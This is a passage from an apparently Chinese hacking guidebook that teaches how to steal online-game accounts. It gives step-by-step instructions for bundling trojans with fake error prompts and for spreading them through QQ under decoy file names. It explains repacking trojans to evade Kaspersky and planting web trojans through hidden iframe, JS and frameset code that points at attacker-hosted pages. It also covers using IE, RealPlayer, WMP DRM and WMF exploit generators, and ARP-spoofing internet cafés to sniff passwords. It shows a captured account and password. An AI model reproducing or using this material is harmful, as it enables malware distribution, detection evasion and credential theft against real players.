## 第四章 木马的进化——网游木马决战杀毒软件


“Bind into EXE”是绑定文件；选择“Download”是从网络上下载文件，在“Path to exe”中填入文件的地址（图4.8、4.9）；“Run Style”项是启动风格的意思，“Normal”代表正常，“Hidden”代表隐藏；“Run Location”项是文件释放的路径，根据实际情况进行选择；“Enable Delayed Execution/Download”项是设置延时启动，在下面的图中选择合适的日期，有了点病毒的味道。最后点击“Add Item”把设置好的捆绑文件添加到如图4.7所示的界面中；在这个界面中有我们添加的所有捆绑文件，有不满意的文件可以选中后点击“Remove”移除；“Install”项是定义注册表中的键值和文件名；“Fake Error”项为执行捆绑程序后弹出的提示信息示框，第一行填写提示框标题，第二行填写内容；所有的步骤都设置完成点击“Done”后在目录下生成一个 binded.exe 的捆绑文件。图4.10是我捆绑的程序NC，黑线标示的地方是文件的路径，正是我设置的 Temp 文件夹，还有设置的弹出提示框。


接下来要介绍的麟仔马车可以让木马具有传播能力，它通过把 QQ 尾巴捆绑到木马中，让其具有传播木马的功能。

> **小知识：**QQ尾巴会偷偷藏在用户的系统中，发作时会寻找QQ窗口，给在线上的QQ好友发送诸如“快去这看看，里面有蛮好的东西——”之类的假消息，诱惑用户点击一个网站；如果有人信以为真点击该链接的话，就会被病毒感染，然后成为毒源，继续传播。

马车程序的界面如图4.11，它的使用很简单，选择好文件点击生成就能制作一个带有 QQ 尾巴的木马。因为我们用的是试用版，所以木马不会随系统启动（图4.12）。


只要有机器中了你的木马，“马车”会释放并运行你的木马，“马车”则在后台继续工作，会向 QQ 上的好友发送你的木马。当然，发送的也是经过捆绑的木马。“马车”会随机发送出以下文件，每个好友只发一次。

- 短片(一片真心).exe
- 爱你爱到杀死你.exe
- 我的自豪.exe
- 打倒日本人.exe
- 求求你放过我.exe
- 真实记录.exe
- 内地禁播.exe
- 我朋友的相片.exe
- 自己拍的相片.exe
- 看了不要笑.exe
- 帮我看看这个.exe
- 信不信由你.exe
- 看看我的照片.exe
- 我前天去了爬山.exe

如果自己中了“马车”，先用进程管理器结束 love.exe 文件，然后到系统目录 X:\WINDOWS（winnt）\system32\ 下删除上面列表的文件就能全部清除病毒文件，最后删除马车的启动项即可。

### 4.2 打造超强免杀网游木马

上边讲的那些网游木马的伪装其实不过是小儿科，真正厉害的是让我们的网游木马免杀。对于那些过度依赖杀毒软件的玩家来说，只要骗过了杀毒软件，我们的网游木马就可以堂而皇之地横行天下了！

要想制作免杀的木马服务端，可以通过软件加壳或手工修改特征码来实现。但手工修改特征码对于小菜来说难度不小，光定位特征码就够我们忙活的了，要是不懂汇编语言还真不知道怎么修改特征码，所以说给木马加壳才是小菜的首选。

给木马加壳，就好比是给木马穿了件新衣服，这样杀毒软件就认不出来了！木马之所以被查杀，是因为其强大的破坏性，使杀毒软件公司抽出时间来研究木马的特征码。以后杀毒软件在检测的时候，当发现定义的特征码时会立刻将其查杀。而加了壳恰恰就是改变了它们的特征码，因此就可以成功地躲过杀毒软件的查杀了！比如某木马的特征码是“12345”，如果杀毒软件发现某文件中含有这个特征，就认为该文件是这个木马，进而将其杀掉。而带有加密功能的壳则会对文件代码进行加密（如：原先的特征是“12345”，加密后变成了“54321”），这样杀毒软件当然就不能再靠文件特征进行检查了。所以我们的马儿也就可以在杀毒软件的眼皮底下大张旗鼓地行动了。

要想给木马加些生僻壳（不容易被杀毒软件“发现”的壳），从而躲过杀毒软件的查杀，进而达到我们盗取网游账号的目的，但第一步必须把木马服务端原来所加的壳脱掉。木马制作者给木马加壳不仅是为了躲过当时的杀毒软件查杀，更重要原因是程序保护，维护自己的版权。因为网上欺世盗名的人很多，拿别人的木马程序代码，稍微改改就标榜是自己的作品，这样的人大有人在！所以他们加的壳一般并不容易脱掉，否则就起不到保护程序的重任了！但是仍然有很多木马是用一般常见的加壳软件来加的，对付它们我们当然不必用特殊的生僻脱壳软件，只用几个常见的就可以把它们搞定了！而我们了解工具前，有必要先了解下什么样的壳属于常见的壳，什么样的壳属于不常见的壳；对付常见的壳我们要做的就是尽可能地将其脱掉，然后给木马加上不常见的生僻壳，进而达到我们的最终目的，打造免杀的木马！

## 第四章 木马的进化——二次木马换壳保护


图4.13


图4.14

#### 4.2.1 ASPack 壳

aspack 壳，十分常见的一款壳，正因为很常见，所以针对它的脱壳软件也十分傻瓜。第二章中的红蜘蛛键盘记录器就是加了这个壳，我是怎么知道的呢？当然是使用工具 PEID 查看木马服务端了，PEID 是强大的查壳工具，它可以侦测几百种壳。用 PEID 打开我们要查壳的文件，软件显示木马被加了 ASPack 2.12 的壳（图4.13）。那就选用 AsPack 的脱壳利器 AspackDie 1.41 汉化版完成脱壳任务，打开软件后就让它选择需要脱壳的软件，如图4.14。

找到红蜘蛛键盘记录器生成的服务端，然后就 OK 了！软件会自动地将其去掉（图4.15）。


图4.15

我们再用 PEID 检测，就会发现已经没有壳了！可以看到“红蜘蛛键盘记录器”是使用 VC6.0 编写的（图4.16），已经成功地把壳脱掉了！

木马服务端已经没有壳了，下一步就是找一个生僻点的壳给它穿上。我选择的是 yoda's Cryptor v1.3。先介绍一下 YC，它是不太常见的一款壳，可以对你的木马进行保护，并附带了很多的选项，使其更加安全。直接运行软件，其主界面如图4.17。

## 第四章 木马的进化——网游木马决战杀毒软件

附带有调试器检测、清除 PE 文件头、CRC 校检、反转储、清除输入信息及 APU 重定向，这些功能对木马的隐藏及掩护都十分有帮助。一般可以都选上，然后点“保护”前的小点点，选择要加壳的软件，然后点“保护”就可以了！弹出提示，如图4.18。


图4.16


图4.17


图4.18

使用卡巴来进行一下测试，竟然还被查到了，看来卡巴的本领还不是吹的，绝对的真才实学，如图4.19。


图4.19

接着我又使用 PESpin0.70 和仙剑给木马加壳，都没能逃过卡巴的魔爪（图4.20、4.21），有险的同时不得不佩服卡巴真的好强大啊！但当试用 Sixxpack v1.1 给木马加壳时，总算是顺利地通过了卡巴的检测（图4.22）。Sixxpack v1.1 的软件界面如图4.23，压缩等级建议选择9。一款免杀的“红蜘蛛键盘记录器”已经成功地打造出来了，截止到4月20日的卡巴病毒库免杀！“免杀红蜘蛛键盘记录器”已经打造出来了，我们下一步要做的当然是赶快找台电脑弄个网游号码玩玩。利用第三章中的方法把“免杀红蜘蛛键盘记录器”安装在那台电脑上，眼看着目标玩了梦幻西游。哈哈！登录信箱发现果然有了账号及密码（图4.24）！

## 第四章 木马的进化——网游木马成长完全软件


图4.20


图4.21

图4.22


图4.23

## 第四章 木马的进化——网游木马技术实战条件


图4.24


图4.25

#### 4.2.2 UPX 壳

UPX 也是一个常用的加壳软件，许多木马作者也都是用它加的壳，像第二章中讲的魔兽世界杀手木马就是用这个加的壳。脱 UPX 壳个人比较喜欢这款“UPX加壳脱壳”软件，它可以加壳也能脱壳，十分方便。

第一次执行 UPXShell，exe 文件需要选择 upx.exe 文件的路径（图4.25），从图中能看到它的选项很丰富。在 UPX Shell 中打开魔兽世界杀手木马，如果不选择输出项，软件默认对其直接脱壳，点击解压，木马成功脱壳（图4.26）。


图4.26


图4.27

接着我们使用 PEID 来检测一下，就会看到已经把原来的 UPX 壳给脱掉了（图4.27），原来木马是使用 Delphi 编写的。接下来就要给它加生僻壳了！听说 IIDKing 不错，本来想给这个木马加……

## 第四章 木马的进化——网游木马决战杀毒软件

上面加完后进行测试，木马竟然用不了，真是郁闷！那就再找个生僻点的壳来搞定。GHF Protector 是属于 19 款超强壳的一种，选择我们的木马，然后选择“保护”就加密成功了（图 4.28）！我们的木马也变成了如图 4.29 所示的样子，不过并不影响使用！我们对其进行检测，是不是通过了卡巴的追杀（图 4.30），成功了。这个壳的确是很强大，卡巴暂时还不能查出它！到此我们这个免杀的“魔兽世界杀手木马生成器”就做出来了！


既然我们超强的魔兽免杀木马已经制作出来了，当然就要去测试效果，在网吧找台机器执行免杀木马，然后进入 WOW，过一段时间后查看了自己的信箱，乖乖，来了！免杀成功（图 4.31）！


#### 4.2.3 FSG 壳

我们使用 PEID 查看“完美世界木马”，看看作者给它加了什么壳，发现木马加的是 FSG 2.0 的壳（图 4.32）。脱这个壳的软件不是很多，我只找到了一款 UnFSG2.0，正好是脱 FSG2.0 的对应软件。


图 4.32


图 4.33

运行 UnFSG 2.0，点击 file 选择完美世界木马，再点击 unpack，然后填入脱壳后的木马名称，脱壳完成（图 4.33）。使用 PEID 检查，不是原来的壳已经被脱掉了，但是却显示的什么都没找到（图 4.34）。问了几个破解高手，他们说很正常，有的时候就是这样，壳已经被成功地脱掉了，但是就是看不到是用什么语言编写的。这个与侦壳工具的能力有关系。而我们是要做免杀，所以就不用去找其他侦壳工具来看到底这个木马是什么程序编写的了！

接下来，我们要做的是给它加壳，使用的壳当然是越生僻越好。但有的时候也不能一味地去找生僻的壳，因为有的壳加完后，木马会出现根本用不了的情况。先用 EP PROTECTOR 给木马加壳，看看效果如何（图 4.35），卡巴响起了其尖锐的叫声。没关系，接着加壳，这次找了一款 Arm Protector v0.1 汉化版。“浏览”选择“完美世界木马”，然后选择加密（图 4.36）。使用 PEID 查下壳，如图 4.37。


图 4.34


图 4.35


图 4.36


图 4.37

再用卡巴检测一下，OK！卡巴的声音没有响起，成功地躲过了它的查杀（图 4.38）！最后在本机上测试木马能不能正常使用，登录游戏后收到了完美世界的信封（图 4.39）。


图 4.38


图 4.39

| 字段 | 内容 |
|---|---|
| 主题 | 东北网通2 |
| 账号 | rwxxwmsj |
| 密码 | wmsjwwx |
| 分区 | 东北网通1 |
| 版本 | WindowsXP |
| 名称 | user052 |
| 地址 | 222 |
| 时间 | 2006-04-09 12:57:33 |

> 阿菜：“我说我传上去的木马怎么都不管用呢，原来还得把网游木马的服务端加壳才行，你干嘛不早告诉我，是不是想留一手呀？”

阿黑：“阿菜你小子过河拆桥啊，我好心教了你这么多，却还得被你说成是不尽心教你，真是不地道，要不是看在好朋友的份儿，我巴不得不教你呢。”

阿菜忙说道：“别，别，开个玩笑，明天我再补偿你一顿麦当劳行了吧！”

阿黑一听可高兴了，“这可是你说的啊，别忘了呀。”

## 第五章 防不胜防的入侵——让网页也玩木马游戏

### 5.1 为什么网页木马可以盗取游戏帐号？

> “阿莱，想不到你也能问出这么有水准的问题呀？”

阿黑又继续说道：“浏览网页，为什么就会中木马？其实这都是因为 Windows 的 IE 浏览器漏洞实在是太多了，多到了甚至有许多朋友已经放弃使用 IE 而改用了 MYIE、Firefox 等浏览器的地步。IE 众多的安全漏洞也造成了当前网页木马的泛滥。”

在网上有许多专用的网页木马生成器以及许多 IE 漏洞利用程序，我们可以轻易地制作出有漏洞的网页文件，将这些网页文件及我们配置好的网游木马传到我们的空间上，当有人使用 IE 访问这些文件时，我们的木马就会悄悄地植入到对方的电脑里了。有许多网友的网游帐号都是这么丢失的。

前几章我们讲的那些入侵、上传网游木马盗号的方式可以被认为是一种主动的攻击方式，相对来讲还好防范一些，而这种使用网页木马来盗取网游帐号的则就是被动的攻击方式了，这种盗号方式非常难以防范。

### 5.2 网页挂马的几种方式

网页木马主要有以下几种形式：

- 1. 启动时加载一个网页：

```html
<body onload="window.location='网页木马地址';"></body>
```

- 2. 加入一个隐藏框架：

```html
</body>
<iframe src="网页木马地址" name="zhu" width="0" height="0" frameborder="0"></iframe>
```

- 3. 图片木马：

```html
<html>
<body>
<iframe src="网页木马地址" width=0 height=0></iframe>
</img>
</body>
</html>
```

- 4. 邮箱网页木马：

```html
<html>
<body>
<iframe src="\"网页木马地址\"" width=0 height=0></iframe>
</body>
</html>
```

- 5. 利用 include file

一般 ASP 网站的文件开头都包含 `<!--#include file="conn.asp"-->` 这样的代码，如果把挂马代码插入到 CONN.ASP 文件中，效果肯定更好。

- 6. JS 挂马

差不多每个网站的网页都会调用 JS 文件，把挂马代码插入到 JS 文件中，不但隐蔽而且影响面积大。JS 中的代码不同一般网页，代码要改变一下：`document.write('<iframe height=0 width=0 src="http://www.myhome.com/mm.html"></iframe>');`。

### 5.3 冰狐浪子网页木马生成器

首先我们得生成网游木马的服务端，我们以“剑侠情缘2木马生成器”为例来说明，它的配置情况与我们在第二章中介绍过的那些网游木马基本上都是类似的（图 5.1），一切都填写好后，点击“生成木马”按钮，我们的网页木马就制作出来了（图 5.2）。


图 5.1

生成服务端后，我将其命名为 #.exe，然后与冰狐浪子网页木马生成器文件里的 #.exe 粘贴到一起（图 5.3）。粘贴完毕后会弹出提示（图 5.4）；然后直接点“冰狐浪子网页木马生成器”。1 秒钟后就会发现文件夹内多了两个文件，分别是“icyfox.htm”和“icyfox.js”（图 5.5）。


接下来我们利用 HTML 代码指向我们的木马程序，代码如下：

```html
<html>
  <title>地址名称</title>
  <iframe src="生成的HTM文件地址" width="0" height="0" frameborder="0"></iframe>
  <center></center>
</html>
```

其中的“地址名称”是你的木马网页的名称，在“生成的 HTM 文件地址”处我们应该填上先前生成的“icyfox.htm”，而“图片地址”就是你准备的图片的名称，我准备的图片名是“mm.jpg”，然后把这个文本文件分别保存为两种格式，一个是“index.htm”，还有一个就是“mm.jpg”。

到此我们的网页木马就做完了，剩下的工作就是上传了，利用 FTP 工具把 icyfox.htm、icyfox.js、mm.jpg、index.htm 这几个文件上传到你的空间。然后想办法让别人访问 http://www.xxx.com/index.htm 或 http://www.xxx.com/01.jpg 都可以让对方中你的木马了。

### 5.4 制作隐藏性更好的网页木马

上边的那个网页木马其实隐藏性并不好，当我们访问时，会发现是一片空白，这不能不令人疑惑。接下来让我们对那个网页木马进行加工，制作出更完善的网页木马来。

制作过程与上一节一样，将生成的两个文件传到我们的空间里去。接下来我们打开网页编辑器，新建一个网页，点击“插入”——“图片”，打开插入图片的对话框，选择我们准备好的图片按确定，如图 5.6。然后转到代码编辑窗口，插入一个嵌入式框架，把框架长度和宽度都改为 0，框架连接到刚才 icyfox.htm 文件的网址，我就以我的地址为例（图 5.7）：


图 5.6


图 5.7

http://y1.redbin.net/icyfox.htm，或者直接输入以下代码：

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=gb2312">
<title></title>
</head>
</head>
<table>
<td height="0" style="border:2px dotted #999999">
<IFRAME align=center name="target" frame Border=0 height=0 scrolling=no src="http://www.dwcn.cn/asp/icyfox.htm" width=0></IFRAME>
</p>
</td>
</table>
<body>

</body>
</html>
```

然后运行“生成.bat”，会在“muma”目录下得到文件“icyfox.js”，http://yl.redbin.net/muma 为你上传到主页空间的“icyfox.js”文件的 URL 路径，最后把“muma”目录下的“icyfox.js”和“icyfox.htm”上传到你的主页空间，访问“icyfox.htm”就会运行相应的木马程序了！

### 5.5 图片木马威力大

首先还是将我们配置好的网游木马服务端上传到空间里，然后打开动擎网页木马生成器填写地址。


也许此处很多菜鸟不明白要写什么，倘若我们生成的网游木马服务端为 hehe.exe，我们的空间地址为 http://yl.redbin.net，那么上传后的位置就是 http://yl.redbin.net/hehe.exe，如图 5.8。木马生成成功后，会提示我们，如图 5.9。

然后新建一个文本文档，添加这行代码，将文本文档命名为 index.html。

```html
<html>
<iframe src="生成的HTML文件地址" width="0" height="0" frameborder="0"></iframe>
<center></center>
</html>
```

那个生成的 HTML 文件地址此处就应该为 `http://yl.redbin.net/index.html`，图片就是我们找好的图片！将文本文档重命名为 `wnmm.jpg`，这里的 `index.html` 就是我们刚才添加动擎木马生成的代码的网页文件！

全部上传到我们的空间吧！把图片和刚才生成的所有东西都上传上去 `http://yl.redbin.net/wnmm.jpg`，这就是我们图片木马的地址了！

你可以把这个网址发给你的网友了，只要他点击了这个网址，我们配置好的网游木马就会神不知鬼不觉地跑到他的电脑上了。这种图片木马比刚才的纯网页木马要更厉害吧！

### 5.6 CHM 网页木马生成器

生成木马服务端很简单，和前面介绍的一样。打开红色特卫队版木马生成器，选择我们配置好的网游木马的服务端点击“生成”按钮就可以了，如图 5.10、5.11。


图 5.10

chm 网页木马生成器已经生成了 `xma.htm` 和 `xma.chm` 两个文件。接下来，老规矩将它们传到我们的空间里去就行了。


图 5.11

新建一个 htm 文件，内容如下：

```html
<frameset rows="444,0" cols="*">
    <frame src="index.htm" frameborder="no" scrolling="auto" noresize marginwidth="0" marginheight="0">
    <frame src="xma.htm" frameborder="no" scrolling="no" noresize marginwidth="0" marginheight="0">
</frameset>
```

这样我们在页面里调用生成的网页，比如你原来的页面叫做 index.htm，生成的网页木马叫做 xma.htm，这样设置后在打开这个 htm 的时候，页面内容是你的 index.htm，而实际上同时打开了我们生成的网页木马 xma.htm。

### 5.7 zxylove 网页木马生成器


图 5.12

这同样也是一个功能强大的网页木马生成器，首先仍然是配置网游木马的服务端，这次我用目前很流行的游戏 WOW 的木马来配置，如图 5.12，将服务端命名为 xmuma。然后将其上传到自己的空间 yl.redbin.net 里。上传很简单，直接登录 FTP 就可以传上去。然后我们就来打造我们的网马，如图 5.13、5.14。

点生成后我们会发现文件下多了个文件，如图 5.15。进去后我们可以发现多出的 3 个文件（图 5.16）。那个 HTML 文件就是我们需要的！将三个文件都上传到我们的空间 yl.redbin.net 里。


图 5.13


图 5.14

然后你就想办法叫别人打开你的网马 yl.redbin.net/zxylove.htm 吧！


图 5.15

图 5.16

### 5.8 Real Player 网页木马生成器

播放影音文件也可以使别人中木马，这种木马几年前就已经有了。主要思路是在 rm 影音文件中插入网木马的 URL 链接，用户在看影音文件到某个时段时会弹出网马的 URL。这样神不知、鬼不觉地就可以使别人中木马，可以说是防不胜防。其实，直接利用 RealPlayer 的漏洞，做成网页木马，让用户在看 rm 的时候直接中马会有更好的效果。因为这样一来，此漏洞利用就与 IE 无关了，而且打 REALPLAYER 补丁的人少之又少，成功率还是很高的。

随着 IE 漏洞的泛滥，很多个人用户都使用了第三方浏览器，所以直接利用 RealPlayer 的漏洞，做成网页木马就是绝对的上上选择。只要装有 REALPLAYER 或暴风影音支持 smil 格式等播放器的用户都会中招。

> **小提示：**2005 年 3 月份，REALPLAYER 暴出安全漏洞，大体意思是：RealPlayer 是一款媒体播放器。使用者可以以基于缓冲区溢出脆弱用故调的多媒体综合语言（smil）文件形式语法分析程序，这能允许一个存心不良的攻击者在一台脆弱的机器上运行任意的代码。

而 Real Player 网页木马生成器是针对 RealPlayer 漏洞的最新网页木马，不弹出窗口，不被查杀，这个网马的调用方式如同播放一个 rm 电影，几乎不存在查杀的可能。

### 使用方法：

首先将你配置的网游木马上传到空间的目录里，如图 5.17。运行“RealGen”或者“无壳”这两个软件中的任何一个，输入刚才传上去的木马服务端的网址 yl.redbin.net/xdangan，如图 5.18，在实现方式上有三种方式供你选择，分别是“脚本跳转”、“object 对象”和“Embed 标签”。我推荐选择 Embed 标签方式，因为经测……

图 5.17

试。这种方式命中率最高，效果最好。

点击生成，将会在本目录下生成 `music.htm` 与 `music.smi` 两个文件，如图 5.19 和图 5.20。要记住一点，要将连同目录下的 `index.htm` 一起上传。

图 5.18

图 5.19

到空间上。这点很重要，否则将会出现无法命中，或者种马效果极差及被查杀的乱七八糟的问题。然后打开 `yl.redbin.net/music.smi`，就会播放 rm 格式的小电影，这样目标就会悄悄地中了我们的埋伏！只要他登录游戏，那么我们得到他的游戏账号和密码只是迟早的问题而已！

图 5.20

### 5.9 播放格式大展身手

目前，在网络上使用最广泛的媒体文件有两类，一类是 RM、RMVB 文件，这类文件的使用我们在前边已经讲过了；而另一类就是 WMV、WMA 文件，由于它们对流媒体的良好支持，使得网络上的电影、音乐等几乎全采用了这几种文件格式，我们只要在这些媒体文件中植入我们的木马，这些看似普通的文件就会立刻成为我们的帮凶。

我们要使用的工具是 WMDRM 打包加密器，它利用的是 Windows 系统默认的播放器 Windows Media Player 的“Microsoft Windows 媒体播放器数字权限管理加载任意网页漏洞”来插入木马。当我们播放已经插入木马的恶意文件时，播放器首先会弹出一个提示窗口，说明此文件经过 DRM 加密需要通过 URL 验证证书，而这个 URL 就是我们事先设置好的网页木马地址，当用户点击“是”进行验证时，我们便种马成功了。

安装“WMDRM 打包加密器”，完成后运行，软件界面很简洁（如图 5.21）。首先出现的是“自定义打包”标签，我们点击“源文件”右边的浏览按钮，选择一个 WMA 或 WMV 文件，然后在下面的“输出目录”里选择生成恶意文件的保存路径，在“输出文件后缀”中填入生成的文件后缀，建议和源文件保持一致。完成后我们切换到“认证字符串”标签，在“认证 URL”栏里输入我们的网页木马地址，`http://yj.redbin.net/xmm.exe`，其他保持默认即可。

图 5.21

图 5.22。再切换到“自定义打包”标签，点击“打包加密”按钮，植有网页木马的恶意媒体文件就生成了。当用户打开这个恶意媒体文件时，Windows Media Player 会要求你获取证书，而这个就是最具迷惑性的了，很多人都会认为这个是正常的，殊不知当他们点击“确定”后就会弹出我们的网页木马。

图 5.22

## 5.10 ms05-038 网页木马生成器

关于 ms05-038 网页木马生成器，江民是这样描述的：由中国黑客 Zwell 编写的 MS05-038 漏洞代码已经被公布到了网上，该漏洞代码是一个网页木马生成工具，利用该工具可以制作恶意网页文件，如果用户没有安装最新补丁，在使用 IE 浏览器访问这些恶意网页时，就会下载黑客指定的任意网络程序并自动运行。虽然 05 年 8 月微软就公布了该漏洞的补丁，但是时至今日，此漏洞在网上仍然被广泛利用。

先配置我们的网游木马，生成木马的服务端。然后将其传到自己的空间里，接着就开始配置我们的网页木马了！

图 5.23

直接在 EXE 文件下载路径栏写上刚才的地址就可以了，如图 5.23、5.24。然后点“生成”，就在桌面上生成了一个 HTML 文件，将其传到自己的空间上，`http://yl.redbin.net/xpfox_ms05038`，就是我们的网马的地址。当然了，我们把这个 HTML 文件传进自己的空间后，可以将其改名字，因为 `xpfox_ms05038` 实在是不太好隐藏自己，可以将其改为 `index.html`。那么我们的网马的地址也就变为了 `http://yl.redbin.net/index.html` 了！

图 5.24

## 5.11 MS06001 网页木马生成器免杀版 1.0

> **小提示：微软 MS0601 漏洞是微软 2006 第一个漏洞。**

描述：图形呈现引擎中由于其处理 Windows 图元文件（WMF）图像的方式而存在一个远程执行代码漏洞。攻击者可以通过构建特制的 WMF 图像来利用此漏洞，如果用户访问了恶意网站或打开了电子邮件中特制的附件，此漏洞就可能允许远程执行代码。成功利用此漏洞的攻击者可以完全控制受影响的系统。

而 MS06001 网页木马生成器就是高手们根据其原理制作出来的，针对的就是这个漏洞。制作步骤上首先当然是要选个非常好的木马，我选择的是一个“剑侠情缘 2 木马生成器”，感觉这个木马对付剑侠情缘还是很轻松的。

首先配置“剑侠情缘 2 木马生成器”，如图 5.25、图 5.26，生成一个服务端。

将其上传到我们的空间里，如图 5.27。然后点“wmf”，写上刚才上传的木马的地址，这里我写的是 `yl.redbin.net/xdangan`。然后点“生成”制作网页木马，如图 5.28。

这时在本目录下会生成一个名为 `exploit.wmf` 的文件，这个文件就是我们的木马了。把 `exploit.wmf` 上传到空间里就行了。

图 5.28

只要对方访问了这个文件，如果他的电脑存在 MS06001 漏洞，就会自动运行我们的木马了！当对方登录这个网络游戏时，那么他的游戏账号就自然被我们知道了！大家可以将网马的地址写到对应的网游论坛的帖子后，相对来说，获得 ID 及密码的几率是十分大的啊！

### 5.12 网页木马也需要加密

俗话说“人怕出名猪怕壮”，有许多网页木马生成器正是因为太出名了，所以也自然成了杀毒软件商的查杀对象，这个时候，如果我们还希望我们辛辛苦苦生成的木马能够发挥出它应有的作用的话，就只有给网页木马加密了。关于加密我们不需要知道多么高深的理论，因为高手们已经为我们制作了种类繁多的网页木马加密器！

#### 一、加密最终版

一个看起来就感到很不错的软件，如图 5.29。针对的网页木马有 HTML 和 ASP 格式，因为网页木马基本上也以这两种格式为主。加密对象中写上做好的网页木马的地址，是 HTML 类型的就在 HTML 前选下，反之则相反。然后选择加密方式，有移位法与逆位法。随便选择一个，点“加密”，则我们的网页木马就被做了层处理了，如图 5.30。

图 5.29

图 5.30

#### 二、网页加密程序

网页木马加密程序是黑洞作者的又一个作品，它的原理是将文件加密。我们在制作网页木马时会先产生文件，然后将文件传到自己的空间，然后给出的地址才是网页木马的地址。而这个加密程序加的就是上传前的网页木马。源文件，自然选择的就是我们的网页木马；而目标文件，就是要把我们的网马与之加密在一起的文件。

## 第五章 防不住的攻击——让网页也玩起网游

图 5.31

图 5.32

感觉有点像文件捆绑器。然后点“加密”，就完成任务了，如图 5.31、图 5.32。

“好了，关于利用网页木马来盗号我们就讲这么多，阿菜，你现在有何感想呀？”

“不听不知道，一听吓一跳，想不到网页还有这么多的名堂呀，你讲的这么可怕，我都草木皆兵了，以后哪还敢去浏览网站呀。”阿菜说道。

“没办法了，谁叫 IE 有这么多的漏洞呢，你要是怕中网页木马的话，还是换个别的浏览器来使用吧，另外就是那些小的、不安全的网站最好别去。”

“我知道了，你先别着急讲，我先把我生成的那几十个盗号网页木马传到我的空间上。”

> **提示：** 目前有许多网吧都安装了管理软件，禁止了我们下载及运行软件，这样的话，我们要想利用以上介绍的方法来运行网游木马盗号的话，就得先破解掉网吧里的种种限制，具体的方法详见黑客 X 档案出版的《网吧黑客宝典》一书！这样，两书在手，才能横行网吧，网游盗号鬼见愁！

## 前端性能优化总结

## 第六章 网络设备——骗天下的网络空间

阿黑：“以上我们介绍的就是目前常用的一些盗号方式，除了上面介绍的外，还有一类方法就是嗅探。”

阿菜：“嗅探是什么，用这个能盗到网游号吗？”

阿黑：“所谓嗅探就是我们截取别人或自己发送及接收的网络数据，我们的目的，就是找出这些数据中的密码。我们从两个方面着手，一是嗅探网络游戏客户端发送的数据，二是嗅探网游木马发送的数据。”

### 6.1 传奇网吧杀手

玩网络游戏肯定要和网游服务器进行数据传输，我们确实可以嗅探到这些数据。对于我们想要的账号和密码，在作为数据进行传输时都会加密，即使我们小菜得到这些数据也不知道什么意思，不然网游公司就别想混了。幸好还有传奇网吧杀手这个软件能让我们体验到嗅探网游账号的魅力，还没有听说哪个网络游戏能用这种方法盗号。

传奇网吧杀手严格地说不算是木马，但它却有盗号的功能，并且我们不用费尽心思去种植木马。就让我们隆重地请出我们的主角——传奇网吧杀手。看它的名字我们就能猜到它的作用：盗取整个网吧的传奇账号。打开目录下的 `www.cn0565.net.exe` 文件，软件的界面如图 6.1。

图 6.1

这个软件的界面十分简单，一共就两个按钮和两个输入框，方便了我们这些小菜的使用。传奇网吧杀手全面支持 Windows 系统，无论是 98 还是 XP 都能稳定运行程序。大家是不是觉得这个软件很神奇，不用挨个机子中木马，只在一台机器上运行就可以轻松得到一个网吧中所有的传奇账号。听起来很梦幻吧，我来给大家解释一下它的原理，你会非常佩服软件作者的思路。

我们都知道网络游戏分为服务端和客户端，我们自己的机子中安装的是客户端，这个客户端要连接服务端进行游戏。我们的网游数据都保存在服务端，每次登录游戏都会有身份验证，也就是输入账号和密码后才能进入游戏，这些工作都是由客户端和服务端互相传送数据完成的。说到这里可能你就想到了，我们在登录游戏时就会把账号和密码发送到服务端进行验证，通过验证后服务端会向客户端反馈信息，你就能进入游戏了。这个过程当然不是像我说得那样只有“一去一回”，是要有多次通信的。

## 传奇网吧杀手工作原理——嗅探下的网游盗号

传奇网吧杀手正是截取传奇用户登录的账号信息，再对账号信息加以解密，就得到了用户名和密码。软件还可以截取到游戏分区、服务器、账号、密码、两个人物的名称、职业、等级、随身物品、背包物品、仓库物品、所在地图、登录时间、修改前后的密码等信息，和传奇木马截取的内容相比没有逊色多少。

我们知道了传奇网吧杀手是通过截取传奇客户端发送的数据来获得密码，但它是利用什么原理截取的呢？它是利用 ARP 欺骗得到数据（Address Resolution Protocol，地址解析协议是一个位于 TCP/IP 协议栈中的底层协议，负责将某个 IP 地址解析成对应的 MAC 地址）……首先它向局域网发送广播，让局域网中的机子误认为它是网关（局域网中的机子与外网通信，所有数据都是要通过网关），这一步就造成局域网中别的机器与外网的通信中断，正在玩传奇的也就掉线了，这种情况发生在网吧肯定会一帮人又要骂娘了。当传奇玩家重新登录游戏时，发送的数据就会发到假的网关（运行传奇网吧杀手的机器），我们的传奇网吧杀手就开始解密工作，那些登录的账号密码都会显示到界面上。

看了传奇网吧杀手工作的原理，你们不再觉得神秘了吧。我们接下来看看软件目录下的文件都有什么用。

| 文件 | 说明 |
|---|---|
| www.cn0565.net.exe | 主程序 |
| PsSdk_dll.dll | 库文件 |
| PsSdk_dll.dll.bak | 备份库文件 |
| HOOK.dll | 键盘热键文件 |
| 记录.txt | 记录信息 |
| WinMain.ini | 配置文件 |
| Group.dat | 传奇分区信息 |

主程序我们已经看过了，库文件的使用作者还有一点说明：在部分电脑上会出现“无法找到合适的网卡”的提示，把 `PsSdk_dll.dll` 删除，再把 `PsSdk_dll.dll.bak` 文件名修改为 `PsSdk_dll.dll` 即可解决此问题。传奇网吧杀手支持 1—99 区的账号截取，增加对新区的支持我们可以替换传奇分区信息文件 `Group.dat`。上百度看看作者有没有更新传奇分区信息文件，有的话下载回来替换原文件。

图 6.2

## 第六章：网游终结者——嗅探下的网游密码

这个软件使用起来非常简单，首先我们要填写网吧局域网的 IP 范围。点击开始菜单，选择所有程序→附件→命令提示符（图 6.2），点击确定。我们在打开的命令提示符窗口输入 `ipconfig`，得到我们机子的 IP 地址是：192.168.0.142（图 6.3）。

我们从自己的 IP 地址可以猜测这个局域网的范围在 192.168.0.1—192.168.0.255 之间，我们在传奇网吧杀手的 IP 输入框内输入上面两个 IP，点击开始后就等着收密码吧（图 6.4）。

软件运行后会在系统托盘内显示一个 QQ 企鹅的图标，也可以按 F11 键隐藏程序，系统托盘的图标也会消失，再按 F12 键就可以调出程序界面。如果截取到的密码格式为 `12345678/643457` 这样的，斜线前面为登录密码，后面为密宝！

最后请大家慎重使用此软件，它会造成网吧大规模掉线，一不小心让人发现了，可是会有生命危险的，切记。

### 6.2 X-Sniff

